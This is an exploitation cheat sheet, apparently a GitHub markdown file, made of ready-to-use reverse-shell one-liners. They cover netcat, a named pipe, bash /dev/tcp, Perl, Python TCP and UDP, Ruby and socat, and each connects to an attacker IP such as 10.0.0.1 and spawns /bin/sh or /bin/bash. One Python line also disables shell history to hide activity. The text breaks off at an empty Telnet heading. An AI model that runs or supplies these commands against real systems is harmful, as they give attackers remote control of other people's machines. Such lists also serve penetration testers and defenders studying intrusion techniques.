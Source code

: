 # Exploitation Cheat Sheet

## Reverse Shells

Netcat

	nc -e /bin/bash IPADDRESS PORT
	nc -c /bin/bash IPADDRESS PORT

Netcat no -e or -c

	rm -f /var/tmp/backpipe 
	mknod /var/tmp/backpipe p
	nc IPADDRESS PORT 0</var/tmp/backpipe | /bin/bash 1>/var/tmp/backpipe

Bash

	bash -i >& /dev/tcp/10.0.0.18/8080 0>&1
	
Perl

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
Python

	#TCP

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	#UDP-use socat UDP listener

	python -c 'import socket,pty,os;lhost = "10.10.15.80"; lport = 100; s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect((lhost, lport)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.putenv("HISTFILE",'/dev/null'); pty.spawn("/bin/bash"); s.close();


Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Socat

	#Listener

	socat file:`tty`,raw,echo=0 tcp-listen:4444

	#Victim

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

	#UDP Listener

	socat file:`tty`,echo=0,raw  udp-listen:100

Telnet

